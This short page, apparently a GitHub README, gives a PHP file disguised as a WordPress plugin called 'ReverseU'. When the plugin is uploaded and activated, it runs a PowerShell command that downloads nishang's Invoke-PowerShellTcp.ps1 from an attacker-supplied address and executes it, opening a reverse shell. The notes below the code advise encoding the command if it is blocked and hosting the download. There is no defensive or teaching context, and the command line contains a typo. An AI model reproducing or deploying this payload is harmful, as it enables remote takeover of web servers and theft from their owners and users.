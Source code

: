 # Wordpress Reverse shell via Plguin Upload
```
<?php
/**
 * Plugin Name: ReverseU
 * Version: 5.6.5
 * Author: Mashiroro
 * Author URI: https://github.com/Mashiroro
 * License: GPL2
 */

echo system('powershell.exe IEX (New-ObjectNet.WebClient).DownloadString("{IP}/Invoke-PowerShellTcp.ps1")');
?>
```
> Take note if the powershell refuses to execute, you have to encode it.
> You have to host a website with downloading options
> Invoke-PowerShellTCP.ps1 is from nishang



